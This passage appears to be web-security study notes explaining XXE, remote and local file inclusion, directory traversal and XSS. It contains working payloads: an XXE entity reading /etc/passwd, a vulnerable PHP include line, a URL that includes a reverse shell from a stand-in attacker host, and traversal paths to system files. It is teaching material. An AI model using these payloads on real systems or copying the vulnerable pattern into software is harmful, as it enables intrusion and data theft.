 ```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

___

### **RFI - Remote File Inclusion**

Is a method that allows an attacker to employ a script to include a remotely hosted file on the webserver. The vulnerability promoting RFI is largely found on websites running on PHP. This is because PHP supports the ability to `‘include’` or `‘require’` additional files within a script;

**Vulnerable PHP Example**:

> **`$incfile = $_REQUEST["file"]; include($incfile.".php");`**

- The first line extracts the file parameter value from the HTTP request, while the second line uses that value to dynamically set the file name, without any appropriate sanitization of the file parameter value, this code can be exploited for unauthorized file uploads.

- For example the URL below contains an external reference to a reverse shell made in PHP file, stored in a remote location:
  - `http://www.example.com/vuln_page.php?file=http://www.hacker.com/netcat.php_` 

---


### **LFI - Local File Inclusion**: 
is very much similar to RFI. The only difference being that in LFI, in order to carry out the attack instead of including remote files, the attacker has to use local files (e.g: files on the current server can only be used to execute a malicious script).

**Examples**:
  - `http://example.com/?file=../../uploads/evil.php`

---

### **Directory Traversal**
An attacker can get sensitive information like the contents of the /etc/passwd file that contains a list of users on the server; Log files, source code, access.log and so on

**Examples:**
- `http://example.com/events.php?file=../../../../etc/passwd`
   - An attacker can get the contents of the **/etc/passwd** (file that contains a list of users on the server).
 
*Similarly, an attacker may leverage the Directory Traversal vulnerability to access **log files** (for example, **Apache access.log or error.log**), **source code**, and other sensitive information. This information may then be used to advance an attack.*

---
### **XSS (Cross-site scripting)**
Inputting JavaScript into a web form input field that alters what the page does.
  - Can also be passed via URL
  - Can be malicious by accessing cookies and sending them to a remote host
  - Can be mitigated by setting **HttpOnly** flag for cookies; But many hackers can circumvent this in order to execute XSS payloads.
